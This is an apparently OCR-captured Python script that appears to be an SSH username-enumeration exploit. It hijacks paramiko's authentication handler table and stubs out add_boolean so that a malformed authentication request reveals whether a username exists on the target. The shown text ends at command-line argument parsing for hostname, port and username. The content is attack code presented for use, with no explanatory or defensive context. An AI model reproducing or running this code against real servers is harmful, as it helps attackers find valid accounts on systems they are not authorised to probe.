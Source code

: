     # IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
    # FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
    # AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
    # LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING
    # FROM, OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS
    # IN THE SOFTWARE.


    import argparse
    import logging
    import paramiko
    import socket
    import sys


    class InvalidUsername(Exception):
        pass


    def add_boolean(*args, **kwargs):
        pass


    old_service_accept = paramiko.auth_handler.AuthHandler._handler_table[
            paramiko.common.MSG_SERVICE_ACCEPT]

    def service_accept(*args, **kwargs):
        paramiko.message.Message.add_boolean = add_boolean
        return old_service_accept(*args, **kwargs)


    def userauth_failure(*args, **kwargs):
        raise InvalidUsername()


    paramiko.auth_handler.AuthHandler._handler_table.update({
        paramiko.common.MSG_SERVICE_ACCEPT: service_accept,
        paramiko.common.MSG_USERAUTH_FAILURE: userauth_failure
    })

    logging.getLogger('paramiko.transport').addHandler(logging.NullHandler())

    arg_parser = argparse.ArgumentParser()
    arg_parser.add_argument('hostname', type=str)
    arg_parser.add_argument('--port', type=int, default=22)
    arg_parser.add_argument('username', type=str)
    args = arg_parser.parse_args()
